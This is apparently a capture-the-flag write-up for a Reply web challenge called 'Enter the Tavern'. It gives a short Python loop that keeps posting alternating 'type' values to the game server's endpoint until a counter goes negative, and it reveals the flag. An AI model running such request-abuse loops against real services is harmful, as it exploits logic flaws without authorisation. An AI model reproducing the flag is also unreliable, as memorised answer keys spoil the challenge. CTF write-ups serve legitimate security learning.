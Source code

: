 #### Challenge:

R-Boy arrives in the Web Realm, a celestial domain comprised of floating islands in the digital sky. These highly interconnected islands create an intricate network resembling a spider's web. Here, energy flows swiftly, and R-Boy senses a strange energy.

[[Enter the Tavern](http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/)](http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/)

---

#### Solution:

- just playing around with the API randomly spitted out the flag around `64000`` negative counter

```python
import requests
import time

ses = requests.session()

while True:
    time.sleep(2)
    r = ses.post(
        f'http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data={"type": "red"})
    print(r.text)
    time.sleep(2)
    r = ses.post(
        f'http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data={"type": "green"})
    print(r.text)
```

---

<details><summary>FLAG:</summary>

```
{FLG:y0U-aT3_700-mUch_B4D_GO4T}
```

</details>
